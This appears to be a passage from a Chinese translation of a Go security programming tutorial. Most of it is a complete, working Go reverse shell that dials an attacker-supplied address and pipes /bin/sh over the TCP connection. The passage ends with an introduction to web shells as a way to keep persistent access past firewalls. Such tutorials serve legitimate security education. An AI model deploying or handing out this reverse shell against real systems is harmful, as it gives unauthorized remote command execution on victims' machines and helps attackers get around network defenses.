 # 创建反向绑定壳

反向绑定 shell 克服了防火墙和 NAT 问题。它不监听传入的连接，而是拨出到远程服务器（您控制并正在监听的服务器）。当你在你的机器上建立连接时，你有一个外壳在防火墙后面的计算机上运行。

本例使用纯文本 TCP 套接字，但您可以轻松地将`net.Dial()`与`tls.Dial()`交换。[第 6 章](06.html)*加密*中有 TLS 客户端和服务器的示例，如果您想修改这些示例以使用 TLS。

```go
// Call back to a remote server and open a shell session
package main

import (
   "fmt"
   "log"
   "net"
   "os"
   "os/exec"
)

var shell = "/bin/sh"

func main() {
   // Handle command line arguments
   if len(os.Args) < 2 {
      fmt.Println("Usage: " + os.Args[0] + " <remoteAddress>")
      fmt.Println("Example: " + os.Args[0] + " 192.168.0.27:9999")
      os.Exit(1)
   }

   // Connect to remote listener
   remoteConn, err := net.Dial("tcp", os.Args[1])
   if err != nil {
      log.Fatal("Error connecting. ", err)
   }
   log.Println("Connection established. Launching shell.")

   command := exec.Command(shell)
   // Take advantage of reader/writer interfaces to tie inputs/outputs
   command.Stdin = remoteConn
   command.Stdout = remoteConn
   command.Stderr = remoteConn
   command.Run()
} 
```

# 创建 web shell

web shell 类似于绑定 shell，但它不是作为原始 TCP 套接字进行侦听，而是作为 HTTP 服务器进行侦听和通信。这是一种创建对机器的持久访问的有用方法。

可能需要 web 外壳的一个原因是防火墙或其他网络限制。HTTP 流量的处理方式可能与其他流量不同。有时，`80`和`443`端口是唯一允许通过防火墙的端口。一些网络可能会检查流量，以确保只允许 HTTP 格式的请求通过。
